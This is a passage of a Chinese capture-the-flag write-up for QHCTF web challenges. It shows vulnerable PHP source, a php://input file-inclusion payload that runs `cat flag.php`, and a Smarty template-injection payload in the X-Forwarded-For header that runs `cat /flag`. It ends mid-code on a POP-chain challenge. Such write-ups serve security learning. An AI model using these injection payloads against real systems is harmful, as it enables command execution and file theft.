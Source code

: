 ```py
        # 表示捕获所有异常并跳过它们。这样程序不会因为连接失败而中断。
```
- `try` 块的作用是执行可能会抛出异常的代码
    - 在这个例子中，我们在 `try` 块中执行 s.connect()，试图连接到 IP 地址 127.0.0.1 和端口 i
    - 如果连接成功，程序会继续执行 `try` 块之后的代码。
    - 如果连接失败（例如，服务器没有在该端口监听），Python 会抛出一个异常，并立即跳转到 `except` 块

## QHCTF
比赛的时候被堵在高速上，这些是赛后复现的
### Easy_include
题目如下，过滤了`flag`字符串，而我们要包含`flag.php`文件，所以可以使用php伪协议  
```php
<?php
error_reporting(0);
//flag in flag.php
$file=$_GET['file'];
if(isset($file))
{
    if(!preg_match("/flag/i",$file))
    {
        include($file);
    }
    else
    {
        echo("no no no ~ ");
    }
}
else
{
    highlight_file(__FILE__);
}

?>
```
payload:
```
?file=php://input
<?php system("cat flag.php");?>
```
![](https://gitee.com/SSSSSHONE/ss/raw/master/20250126133913.png)  
### Web_IP
参考：
- [PHP的模板注入（Smarty模板）](https://blog.csdn.net/qq_45521281/article/details/107556915)  

`hint.php`页面提示与ip有关  
![](https://gitee.com/SSSSSHONE/ss/raw/master/20250126141314.png)    
ip与http协议的`X-Forwarded-For`标签有关，但是改变ip题目并没有发生变化，了解到php模板注入  
payload:`X-Forwarded-For: {system('cat /flag')}`  
![](https://gitee.com/SSSSSHONE/ss/raw/master/20250126141223.png)  
### Web_pop
题目源码如下：
```php
<?php
error_reporting(0);
highlight_file(__FILE__);
class Start{
    public $name;
    protected $func;
 
    public function __destruct()
```